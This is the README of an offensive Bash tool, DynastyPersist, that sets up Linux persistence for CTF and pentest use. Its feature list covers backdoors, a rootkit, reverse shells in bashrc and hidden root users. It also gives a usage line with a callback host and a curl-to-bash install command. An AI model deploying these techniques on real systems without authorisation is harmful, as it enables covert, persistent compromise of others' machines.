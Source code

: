 

<h1 align="center">DynastyPersist 1.4</h1>

<p align="center">
  DynastyPersist: A streamlined tool for achieving Linux persistence effortlessly.<br>
  Supports <b><i>KoTH, Battlegrounds and Pentest Operations</i></b><br>
   <br>
  <img alt="GitHub License" src="https://img.shields.io/github/license/Trevohack/DynastyPersist?style=for-the-badge&labelColor=blue&color=violet">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Trevohack/DynastyPersist?style=for-the-badge&labelColor=blue&color=violet">
  <img alt="Static Badge" src="https://img.shields.io/badge/Tested--on-Linux-violet?style=for-the-badge&logo=linux&logoColor=black&labelColor=blue">
  <img alt="Static Badge" src="https://img.shields.io/badge/Bash-violet?style=for-the-badge&logo=gnubash&logoColor=black&labelColor=blue">
</p> 

## Documentation

### [ FEATURES ]

| Features | Description |
| :-------- | :-------   | 
| **SSH Key Generation** |  Automatically generates SSH keys for covert access.  |
| **Cronjob Persistence** | Sets up cronjobs for scheduled persistence. |
| **Custom User with Root** | Creates a custom user with root privileges. |
| **RCE Persistence** | Achieves persistence through remote code execution |
| **LKM/Rootkit** | Demonstrates Linux Kernel Module (LKM) based rootkit persistence. | 
| **Bashrc Persistence** | Modifies user-specific shell initialization files for persistence (aliases / reverse shells). |
| **Systemd Service for Root** | Sets up a systemd service for achieving root persistence. |
| **LD_PRELOAD Privilege Escalation Config** | Configures LD_PRELOAD for privilege escalation. |
| **Backdooring Message of the Day / Header** | Backdoors system message display for covert access. |
| **Modify an Existing Systemd Service** | Manipulates an existing systemd service for persistence. |
| **Backdoors APT Command** | Backdoors `apt` command to pop up a shell. |


### [ MODES ]

* Currently, there are 2 modes available in the latest update (1.4).

* Modes are `normal` and `ctf` which are designed to work in a specific behavior.

* Firstly, `normal` mode enters the tool in the usual setup, with all features. These features will run locally on the local host where the script is being executed. Designed for persistence in real-time operations.

* Secondly, `ctf` (beta) mode is an extra feature to log in to a compromised server via SSH and gain persistence. This addon will help a lot in KoTH or Battlegrounds. Further, this will save a lot of time taken for setting up persistence. 

* In comparison, the `normal` mode comes with more features and stability than the `ctf` mode. 

### [ USAGE ] 

* The syntax to use the tool is described below: 

```bash
$ ./dynasty.sh <lhost> <lport> <mode> 
$ ./dynasty.sh ctf 
$ ./dynasty.sh 10.10.14.3 9999 normal
``` 

## Installation

Via Git
```bash
$ git clone https://github.com/Trevohack/DynastyPersist
$ cd DynastyPersist/src 
``` 

Via Curl 
```bash
$ curl -sSL https://raw.githubusercontent.com/Trevohack/DynastyPersist/main/src/dynasty.sh | bash
```


